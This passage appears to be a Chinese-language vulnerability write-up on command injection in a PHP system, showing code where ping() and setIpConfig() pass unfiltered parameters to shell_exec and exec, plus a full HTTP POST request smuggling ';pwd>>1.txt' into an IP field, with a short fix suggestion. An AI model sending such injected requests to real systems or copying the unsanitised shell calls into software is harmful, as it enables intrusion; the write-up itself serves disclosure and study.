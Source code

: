   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/K98U0WWMOQLzrIibBo82pkK9DmnClXpoH5YSYDYm2ExROFA8ZDubsRXgSEUEhWDwG8mBA2iaACfV00icYwORsQ0VA/640?wx_fmt=png&from=appmsg "")  
  
代码分析：  
```
public function ping($ip)
{
  try 
  {
    $ret = shell_exec("ping -c4 $ip");
    $this->log->info($ret);
    return $ret; 
  } 
  catch (Exception $e) 
  {
    $this->log->error($e->getMessage(), $e);
    throw $e;
  }
}
```  
  
通过入口反射调用了SysManager类中的ping方法在ping方法中 无过滤传进来的**$ip**参数直接拼接shell指令并执行执行，并将执行后的输出返回到前端  
  
修复建议：在使用shell_exec、exec、eval这类危险函数时 必须严格过滤用户的输入可使用正则等方式判断输入是否合法  
##### 3、命令执行：  
  
执行位置：/classes/common/busiFacade.php类文件地址：/classes/manage/SysManager.php  
```
POST /classes/common/busiFacade.php HTTP/1.1
Host: xxxxxxx
Content-Length: 261
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxxx
Connection: close

%7B%22name%22%3A%22setIpConfig%22%2C%22serviceName%22%3A%22SysManager%22%2C%22userTransaction%22%3Afalse%2C%22param%22%3A%5B%22%3Bpwd%3E%3E1.txt%22%2C%22255.255.252.0%22%2C%22192.168.7.1%22%2C%22202.96.128.86%22%2C%22192.168.89.89%22%2C%22255.255.252.0%22%5D%7D
```  
  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/K98U0WWMOQLzrIibBo82pkK9DmnClXpoH4QJjyEsO2GEhTAWSwWbiaXKvJLOMTgR5xLDaRf4tKFiazONXZAOtFXgQ/640?wx_fmt=png&from=appmsg "")  
  
##### 代码分析：  
```
public function setIpConfig($ip, $mask, $gateway, $dns, $ip2, $mask2)
{
  $cmd = "/ncast/shell/saveIP.sh $ip $mask $gateway $dns $ip2 $mask2";
  try 
  {
    $this->log->info($cmd);
    exec($cmd);
  } 
  catch (Exception $e) 
  {
    $this->log->error($e->getMessage(), $e);
    throw $e;
  }
```